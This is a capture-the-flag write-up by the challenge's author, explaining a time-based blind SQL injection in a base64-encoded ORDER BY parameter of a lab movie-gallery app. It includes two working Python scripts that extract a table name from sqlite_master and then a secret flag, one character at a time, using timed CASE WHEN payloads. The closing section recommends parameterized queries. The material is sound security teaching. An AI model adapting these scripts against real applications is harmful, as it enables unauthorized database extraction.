 ```yaml
---
categories: [ShunyaCTF]
tags: [web exploitation, SQL injection]     # TAG names should always be lowercase
author: Darshan
description: Web exploitation category challenge created by me for ShunyaCTF 2k24
image:
    path: /assets/img/Banners/the-time-stone.jpg
pin: False
---
```


# Solution for Time-Based SQL Injection

## Challenge Overview

In this challenge, we exploited a time-based SQL injection vulnerability to extract the name of a dynamically generated table and retrieve the secret value stored within it. The challenge demonstrates the importance of secure coding practices and validates the effectiveness of SQL injection as an attack vector when inputs are not properly sanitized.

## Vulnerability Explained

Time-based SQL injection occurs when an attacker can influence the execution time of a database query to infer data. This type of injection is useful when direct data retrieval is not possible, but the application’s behavior can be observed based on the time it takes to execute certain queries.

The vulnerability in this challenge allowed attackers to:
1. Identify the name of a table with a specific prefix (`secret_`).
2. Extract the content of a column (in this case, the `text` column containing the secret flag) from the identified table.

The exploitation relied on crafting SQL queries that deliberately caused a delay (using a hypothetical `zhopi()` function) when a specific condition was met. By measuring the response time, the attacker could deduce whether the condition was true or false, thus extracting data character by character.

## Application Walkthrough

The following screenshots showcase the vulnerable application in action:

![homepage](/assets/img/ShunyaCTF/TimeStone/homepage.png)

1. The home page provides information about what a time stone is and what are the key facts about the time stone.
2. After hovering mouse pointer to the GIF image, that gif image is clickable and redirecting us to new directory named `/time`.
3. When I visit the `/time` directory, there are bunch of Marvel movies posters and there ratings. There are no input boxes or other stuffs just a gallary of Marvel movies. As shown in the image below:  
![mainpage](/assets/img/ShunyaCTF/TimeStone/mainpage.png)

1. So I decided to review the source code to check if I can find something and boom there is some Javascript code running that seems suspicious, see the screenshot below:
![sourcecode](/assets/img/ShunyaCTF/TimeStone/sourcecode.png)

2. There are two different api calls are happening first one is `/api/goodforyou` and another one is `/api/movies`.
3. First one is just for diversion we don't need that but the another one has something interesting, Application is sending a POST request to that endpoint with a json data `sequence: 'aWQgZGVzYw=='`.
4. It's a base64 data so let's decode it. `aWQgZGVzYw==` -> `id desc`
5. `id desc` it looks like the SQL/SQLite syntax. Now we understand that this challenge is about the SQL injection and as the name suggests it's a time stone so the SQL injection should be time based. Let's create a script to exploit this vulnerablity.
6. But before that to read the flag we must know the table name where the flag is stored so we create 2 different script one for table name retrival and another for flag retrival. Script are mentioned below.  

## Solution Script Walkthrough

### 1. Finding the Table Name

The first part of the solution involved finding the dynamically generated table name. The `sqlite_master` table was queried to locate tables with names starting with `secret`. By leveraging the `SUBSTR` function, each character of the table name was extracted iteratively.

```python
# Script to find the table name
import requests
import base64
import json
import time

url = '<url for the chall>'

secret = list()
table_name = 'secret'
chars = 'abcdefghijklmnopqrstuvwxyz_'
sleep_time = 1

while True:
    found = False
    for i in chars:
        payload = f"(CASE WHEN (SELECT SUBSTR(name,{len(table_name)+1},1) FROM sqlite_master WHERE type='table' AND name LIKE 'secret%')='{i}' THEN id + zhopi({sleep_time}) ELSE rating END) DESC"

        encoded_payload = base64.b64encode(payload.encode()).decode('utf-8')

        data = {
            'sequence': encoded_payload
        }
        start_time = time.time()
        r = requests.post(
            url + '/api/movies',
            data=json.dumps(data),
            headers={'Content-Type': 'application/json'}
        )
        end_time = time.time()

        elapsed_time = end_time - start_time

        if elapsed_time >= sleep_time:
            table_name += i
            found = True
            print(f"Found character: {i}, updated table name: {table_name}")
            break
        else:
            print(f"\rTrying for: {i} at index: {len(table_name)}, elapsed time: {elapsed_time}", end="")

    if not found:
        print("No matching character found.")
        break

print(f"Final table name: {table_name}")
```

### 2. Extracting the Secret Value

After identifying the table name, the second script was used to extract the secret value. Similar logic was applied, but this time, the `text` column of the identified table was queried.

```python
# Script to find the value from the table
import requests
import base64
import json
import time

url = '<url for the chall>'

flag = ''
chars = 'abcdefghijklmnopqrstuvwxyz0123456789'
sleep_time = 1

while True:
    found = False
    for i in chars:
        payload = f"(CASE WHEN (SELECT SUBSTR(text,{len(flag)+1},1) FROM secret_oezxsbhh_text WHERE id=1)='{i}' THEN id + zhopi({sleep_time}) ELSE rating END) DESC"

        encoded_payload = base64.b64encode(payload.encode()).decode('utf-8')

        data = {
            'sequence': encoded_payload
        }
        start_time = time.time()
        r = requests.post(
            url + '/api/movies',
            data=json.dumps(data),
            headers={'Content-Type': 'application/json'}
        )
        end_time = time.time()

        elapsed_time = end_time - start_time

        if elapsed_time >= sleep_time:
            flag += i
            found = True
            print(f"\nFound character: {i}, updated flag: {flag}")
            break
        else:
            print(f"\rTrying for: {i} at index: {len(flag)}, elapsed time: {elapsed_time}", end="")

    if not found:
        print("\nNo matching character found.")
        break

print(f"\nFinal flag: {flag}")
```

## How to Use the Solution Script

1. Update the `url` variable with the challenge URL.
2. Run the first script to find the table name.
   - Ensure the server is running and accessible.
   - The script will output the discovered table name.
3. Update the second script with the identified table name.
   - Replace `secret_oezxsbhh_text` with the discovered table name.
4. Run the second script to extract the secret value (flag).
   - The script will iteratively reveal the flag character by character.

## Conclusion

This challenge highlighted the importance of mitigating SQL injection vulnerabilities by:
- Validating and sanitizing user inputs.
- Using parameterized queries to prevent attackers from injecting malicious SQL.
- Disabling potentially harmful database functions or queries.

Understanding and exploiting time-based SQL injection requires patience and precision, making it an effective learning exercise for aspiring security professionals.

*Thank you for reading!! ;)*

